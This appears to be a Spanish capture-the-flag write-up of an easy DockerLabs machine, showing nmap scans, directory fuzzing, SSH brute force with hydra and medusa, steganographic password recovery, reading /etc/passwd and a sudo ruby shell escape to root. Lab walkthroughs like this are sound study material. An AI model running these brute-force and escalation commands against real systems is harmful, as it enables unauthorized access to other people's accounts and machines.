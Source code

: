 
> Habilidades: Enumeración, fuerza bruta, escalada de privilegios (linux), esteganografía.
> 
![intro](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/intro.png?raw=true)

# RECONOCIMIENTO

## Nmap Scan

Realizamos el primer sondeo a todos los puertos para verificar que puertos y servicios están activos.
~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![Primer_Escaneo](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/Nmap1Scan.png?raw=true)

- `--open`: Mostrar los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.

_____________________________________________________________________________________________________________________________________________________________________

### Enumerar Servicios

Realizamos enumeración a los puertos abiertos lanzando los scripts predeterminados e indicando la versión de los servicios. (-sC -sV)
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![Escaneo_Sevicios](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ServicesScan.png?raw=true)

- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.
_____________________________________________________________________________________________________________________________________________________________________

## Http Service


Vemos que el puerto `80` corresponde a un servicio HTTP. Vamos a investigar qué hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extensión de navegador `Wappalyzer`).

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/whatweb.png?raw=true)

Abrimos en navegador y vamos a dicha web. Leemos y podemos ver algo interesante: una nota de `Carlota`.
Siempre reviso el código fuente de la web `view-source` por si se me escapa algo interesante.

![despido](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/despidoempleado.png?raw=true)

_____________________________________________________________________________________________________________________________________________________________________

## Fuzzing

El siguiente paso será intentar descubrir posibles directorios. Podemos usar cualquier herramienta de fuzzing; yo usaré `wfuzz` y `gobuster`

### Wfuzz
~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://172.17.0.2/FUZZ
~~~

![wfuzz](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/zfuzz.png?raw=true)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (Not Found)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea


### Gobuster

~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/burp.png?raw=true)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

En ambos casos, no se ha descubierto ningun directorio. :(
_____________________________________________________________________________________________________________________________________________________________________

## Fuerza Bruta

Como obtuvimos dos nombres anteriormente, vamos a intentar hacer fuerza bruta con uno de ellos. En este caso, usaremos dos herramientas diferentes aunque con el mismo resultado.

~~~ bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
~~~

![hydra](https://i.imgur.com/gHUFhTq.png)


- `-l`: Especifica un nombre.
- `-P`: Especifica una lista de palabras.
- `-t4`: Especifica hilos a usar. (más rapido)
- `ssh`: Especifica el protocolo.

~~~ bash
medusa -h 172.17.0.2 -u carlota -P /usr/share/wordlists/rockyou.txt -M ssh -t 4
~~~
![medusa](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/medusa.png?raw=true)

- `-h`: Especifica la dirección IP del objetivo.
- `-u`: Especifica el nombre de usuario a probar.
- `-P`: Especifica el archivo de lista de contraseñas a utilizar.
- `-M`: Especifica el módulo a utilizar, en este caso SSH.
- `-t 4`: Especifica el número de hilos a utilizar para agilizar el proceso.

__¡¡BINGO!! obtuvimos las credenciales de Carlota.__

_____________________________________________________________________________________________________________________________________________________________________
# Escalada de privilegios

Una vez tenemos acceso, tratamos la TTY para poder usarla comodamente. Para ello cambiaremos el valor de la variable `$TERM`. En este caso, nuestra shell (SSH) ya es interactiva, solo necesitaremos:

~~~ bash
/bin/bash -i
export TERM=xterm
~~~

### Enumeración del Entorno

En primer lugar, veremos si tenemos privilegios sudo mediante `sudo -l`, pero no hay suerte. Seguimos enumerando y vemos una imagen en una carpeta de Carlota.
Vamos a comprobar si tiene información oculta. En primer lugar, nos la descargamos. Lo haremos de `dos modos diferentes`, es bueno saber varias maneras de hacer las cosas ya que no siempre funcionan los mismos métodos.

![estego](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/estego.png?raw=true)

Método 1: SCP
~~~ bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /opt/amor
~~~
![scp](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/scp.png?raw=true)

Método 2: Servidor temporal con Python

Víctima:
~~~ bash
python3 -m http.server 8080
~~~
![httpserver](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/httpserver.png?raw=true)

Atacante:
~~~
wget http://172.17.0.2:8080/imagen.jpg
~~~
![wget](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/wget.png?raw=true)


## Esteganografía y escalada de privilegios
Para comprobar si tiene información oculta o metadatos, usaremos la herramienta `steghide`. Con las opciones `extract` y `sf`, extraemos los metadatos si los hubiera en un archivo.

~~~
steghide extract -sf imagen.jpg
~~~
El contenido del archivo parece estar codificado en base64.

![steg](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/stg.png?raw=true)

Decodificamos con un simple comando.

~~~
cat secret.txt | base64 -d
~~~

![decode](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/decode.png?raw=true)

Probamos la contraseña para escalar a root, pero no hay suerte. Revisamos el archivo `/etc/passwd` para ver los usuarios. Observamos tres usuarios activos: oscar, carlota y root.

~~~
cat /etc/passwd
~~~
![users](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/users.png?raw=true)

Probamos con el usuario Oscar y efectivamente funciona.
~~~
su oscar
whoami
~~~
![changeuser](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/oscar.png?raw=true)

Los siguientes pasos consisten en enumerar al igual que con el usuario Carlota. Tanto directorios, como permisos de archivos y rutas. El primer paso es saber si puede ejecutar sudo con:
~~~
sudo -l
~~~
![nopassword](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/nopasswd.png?raw=true)

Podemos ver que el usuario Oscar puede ejecutar ``/usr/bin/ruby`` como root sin necesidad de contraseña. Ahora vamos a averiguar la manera. Vamos a la web ``GTFOBins``, buscamos ruby y seleccionamos sudo. Leemos atentamente, en este caso buscamos una shell simplemente.

![ruby](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ruby.png?raw=true)
~~~
sudo ruby -e 'exec "/bin/sh"'
whoami
~~~

![root](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/root.png?raw=true)

Pues ya estaría :D



